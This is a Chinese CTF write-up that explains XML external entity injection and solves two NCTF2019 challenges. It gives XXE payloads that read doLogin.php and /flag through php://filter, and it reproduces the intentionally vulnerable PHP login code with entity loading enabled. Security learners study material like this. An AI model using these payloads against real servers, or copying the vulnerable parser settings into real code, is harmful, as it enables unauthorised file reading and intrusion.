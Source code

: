 # XML外部实体注入

[https://zh.wikipedia.org/wiki/XML](https://zh.wikipedia.org/wiki/XML)

XML定义结构,存储信息,传送信息

```xml
<?xml version="1.0"?>
  <小纸条>
    <收件人>大元</收件人>
    <发件人>小张</发件人>
    <主题>问候</主题>
    <具体內容>早啊，饭吃了沒？ </具体內容>
  </小纸条>
```

每个XML文档都由XML声明开始,在前面的代码中的第一行就是XML声明`<?xml version="1.0"?>`

这一行代码会告诉解析器或浏览器这个文件应该按照XML规则进行解析

但是,根元素到底叫`<小纸条>`还是`<小便条>`,则是由[文档类型定义](https://zh.wikipedia.org/wiki/文档类型定义)(DTD)定义的,如果DTD规定根元素必须叫`<小便条>`,那么若写作`<小纸条>`就不符合要求

可以在DTD中定义实体

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY a "asdf" >
]>
<test>
    <name>&a;</name>
    <passwd>passwd</passwd>
</test>
```

![image-20210424153027591](image-20210424153027591.png)

除了在DTD中使用内部实体外还可以使用外部实体

### [NCTF2019]Fake XML cookbook

在提交用户名和密码是抓包的结果为

```xml
<user><username>admin</username><password>admin</password></user>
```

将提交的结果替换为

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&shell;</username><password>admin</password></user>
```

即可对外部实体进行引用,从而对`doLogin.php`进行读取

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

对flag进行读取

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
]>
<user><username>&shell;</username><password>admin</password></user>
```

### [NCTF2019]True XML cookbook

使用相同的payload即可读取源代码

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

但是`www`和根目录都没找到flag,看wp说要SSRF,但在buu复现不出来...

